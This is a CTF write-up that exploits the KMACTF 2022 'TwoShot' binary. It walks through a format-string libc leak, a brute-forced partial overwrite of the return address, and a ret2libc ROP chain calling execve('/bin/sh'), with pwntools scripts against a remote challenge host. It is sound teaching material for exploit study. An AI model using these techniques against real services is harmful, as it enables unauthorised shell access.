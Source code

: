 # KMACTF 2022 - TwoShot

Original challenge link: http://ctf.actvn.edu.vn/challenges

You can also download the chall in my repo: [TwoShot.zip](TwoShot.zip)

There will be 2 files in zip:

- twoshot
- libc-2.33.so

Download and use `patchelf` to patch the file, and then we can get started!

# 1. Find bug

First, we will check all the basic information of challenge:

```bash
$ file twoshot
twoshot: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=db5a8f37bd3d937233d60439e8457def482877fe, for GNU/Linux 3.2.0, not stripped

$ checksec twoshot
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This is a 64-bit file without being stripped and `No canary found` but `PIE enabled`. Next, we will decompile the challenge with ghidra to get the flow of program. There are just a few function. The first one is main(), it read input from user and then printf() without format string --> Bug **Format String**:

![main.png](images/main.png)

Let's jump to the function readstr():

![readstr.png](images/readstr.png)

We can see that the while loop will end just when we input `\n` --> **Buffer Overflow**

# 2. Idea

For this challenge, it's a bit tricky because after printf, we don't have any other @plt so that changing @got is meaningless. So let's attach with gdb first and we can analyze the binary to see if we have anything interesting.

Set breakpoint at `ret` of main and check the stack:

```gdb
gef➤  disas main
   ...
   0x000055555555527b <+133>:	leave  
   0x000055555555527c <+134>:	ret    

gef➤  b*0x000055555555527c
Breakpoint 1 at 0x55555555527c

gef➤  c
```

![check-stack.png](images/check-stack.png)

Hm what's that? That's the address of main() right after `__libc_start_main_ret`. So if we can change the address of saved rip from `__libc_start_main_ret` into pop2 (means pop 2 times), we can jump back to main again. Meanwhile, we can leak the address of libc to conduct a simple ret2libc.

Summary:
- Stage 1: Jump main again & Leak libc address
- Stage 2: Conduct ret2libc

# 3. Exploit

### Stage 1: Jump main again & Leak libc address

First, let's find the gadget pop2, and the best gadget we will get is the gadget that has offset nearby offset of `__libc_start_main_ret` so that we just need to change 1 or 2 bytes:

![offset-libc-start-main-ret.png](images/offset-libc-start-main-ret.png)

That's the offset of `__libc_start_main_ret`. Let's find a gadget pop2 with the first hex number is 2:

```bash
$ ROPgadget --binary libc-2.33.so | grep ret | grep ": pop " | grep 0x000000000002
0x000000000002a04b : pop r12 ; pop r13 ; ret
0x000000000002a4cc : pop r13 ; pop r14 ; ret
0x0000000000028a52 : pop r14 ; pop r15 ; ret
0x0000000000028db1 : pop r15 ; pop rbp ; ret
0x000000000002a4cd : pop rbp ; pop r14 ; ret
0x00000000000266df : pop rbx ; pop rbp ; ret
0x0000000000028db2 : pop rdi ; pop rbp ; ret
0x0000000000028a53 : pop rsi ; pop r15 ; ret
```

These are pop2 which I filtered manually. The next hex number is 8 so we can filter more to have the nearly proper gadget:

```bash
$ ROPgadget --binary libc-2.33.so | grep ret | grep ": pop " | grep 0x0000000000028
0x0000000000028a52 : pop r14 ; pop r15 ; ret
0x0000000000028db1 : pop r15 ; pop rbp ; ret
0x0000000000028db2 : pop rdi ; pop rbp ; ret
0x0000000000028a53 : pop rsi ; pop r15 ; ret
```

The next hex number is 5 which cannot filter anygadget more so we will choose 1 of 4 gadgets here to use. For me, I will choose the first one with address is `0x0000000000028a52`. However, the address is dynamic so the address of `__libc_start_main_ret` will change in every run so to have a pop2, we need to choose 2 bytes fixed and bruteforce to get pop2 randomly. The first script can be as following (find the offset from input to saved rip yourself):

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'debug'
context.binary = exe = ELF('./twoshot_patched', checksec=False)
libc = ELF('./libc-2.33.so', checksec=False)

# p = process(exe.path)
p = remote('45.32.110.58', 9997)

pop2 = 0x0000000000028a52 & 0xffff

payload = b''
payload = payload.ljust(72, b'A')    # Offset from input to saved rip
payload += p16(pop2)                 # Overwrite 2 least significant byte of __libc_start_main_ret
p.sendline(payload)
```

Run several times and attach with gdb, we might jump back to main successfully. But before we test it, we will need to add some format string to leak `__libc_start_main_ret` address which is overwritten so that we can conduct ret2libc. After finding format string offset, we end up with `%17$p` is the format string offset point to `__libc_start_main_ret`. Our payload will be updated as follows:

```python
payload = b'%17$p'
payload = payload.ljust(72, b'A')
payload += p16(pop2)
p.sendline(payload)
```

Let's assume that we can do a pop2 and the address is leaked, we will use this script to get the libc base address:

```python
data = p.recvuntil(b'AAAA', drop=True)
libc_leak = int(data, 16)
libc.address = libc_leak - 0x28a52
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))
```

For now we can attach with gdb to see if we can get pop2 or not. Running several times, we can see that the address of `__libc_start_main_ret` is not usually have the number `8` of offset `0x8a52` of pop2 above so we will change that number `8` to `b` because the address happen more often. So the pop2 will change 2 least significant bytes from `0x8a52` to `0xba52`:

```python
pop2 = 0x000000000002ba52 & 0xffff

payload = b''
payload = payload.ljust(72, b'A')    # Offset from input to saved rip
payload += p16(pop2)                 # Overwrite 2 least significant byte of __libc_start_main_ret
p.sendline(payload)
```

And if the 2 least significant bytes is `b565`, we will change it to `ba52` and we get pop2:

![stack-overwrite-2-bytes.png](images/stack-overwrite-2-bytes.png)

![pop2.png](images/pop2.png)

And the libc base address is correct too:

![libc-base.png](images/libc-base.png)

![libc-base-gdb.png](images/libc-base-gdb.png)

So let's move on!

### Stage 2: Conduct ret2libc

Now, we will need to find some gadget to modify register rdi, rsi and rdx from provided libc:

```bash
$ ROPgadget --binary libc-2.33.so | grep ret | grep ": pop "
...
0x0000000000028a55 : pop rdi ; ret
...
0x00000000000c7f32 : pop rdx ; ret
...
0x000000000002a4cf : pop rsi ; ret
```

And we can conduct ret2libc with the same offset as above:

```python
pop_rdi = 0x0000000000028a55 + libc.address
pop_rsi = 0x000000000002a4cf + libc.address
pop_rdx = 0x00000000000c7f32 + libc.address
payload = b'A'*72
payload += flat(
   pop_rdi, next(libc.search(b'/bin/sh')),
   pop_rsi, 0,
   pop_rdx, 0,
   libc.sym['execve']
   )
p.sendline(payload)
```

At first, I used system() but seems not work so I changed to execve to get the shell. But because in our case, we need to bruteforce so if we run script manually, it might takes time so after sending payload, we will send the command to cat the flag if we get the console and then exit the shell, then recvall() to see if we can get the flag:

```python
p.sendline(b'cat /home/ctf/flag.txt && exit')
data = p.recvall()
if b'KMA' in data:
   print(data[data.find(b'KMA'):])
   exit()
p.close()
```

And of course, put the whole script from the `p = remote(...)` to the end into a while to bruteforce automatically and we can get the flag. 

Full script: [solve.py](solve.py)

# 4. Get flag

![get-flag.png](images/get-flag.png)

Flag is `KMA{r3s0nab1e_bru73f0rc3_r3s0nab1e_fl4g_!!!}`